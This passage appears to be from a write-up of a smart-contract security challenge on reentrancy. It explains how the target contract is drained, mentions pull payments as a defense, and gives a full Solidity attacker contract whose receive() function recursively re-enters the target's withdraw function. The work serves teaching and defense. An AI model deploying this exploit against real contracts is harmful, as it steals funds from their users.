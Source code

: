 So we will donate some money to create our initial balance at the target, which will allow the ``` balances[msg.sender] >= \_amount ``` to be true. Now, we can repeadetly withdraw that amount by re-entering the withdraw function. Since balance update effect happens after the transfer interaction, this will go on and on until the balance is depleted. As a defense, we could use a pull-payment approach: the account to be paid must come and withdraw their money themselves, rather than us paying the ether to them, this is also the method thats used in the minimalistic nft marketplace I deployed on IPFS under the guidance of OG Patrick Collins s/o.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Interface of the target contract
interface IReentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Attacker {
  address public owner;
  IReentrance targetContract;
  uint targetValue = 0.001 ether;

  constructor(address payable _targetAddr) payable {
    targetContract = IReentrance(_targetAddr);
    owner = msg.sender;
  }

  // withdraw money from this contract
  function withdraw() public {
    require(msg.sender == owner, "Only the owner can withdraw.");
    (bool sent, ) = msg.sender.call{value: address(this).balance}("");
    require(sent, "Failed to withdraw.");
  }

  // begin attack by depositing and withdrawing
  function attack() public payable {
    require(msg.value >= targetValue);
    targetContract.donate{value:msg.value}(address(this));
    targetContract.withdraw(msg.value);
    targetValue = msg.value;
  }

  receive() external payable {
    uint targetBalance = address(targetContract).balance;
    if (targetBalance >= targetValue) {
      // withdraw at most your balance at a time
      targetContract.withdraw(targetValue);
    } else if (targetBalance > 0) {
      // withdraw the remaining balance in the contract
      targetContract.withdraw(targetBalance);
    }
  }
}
```
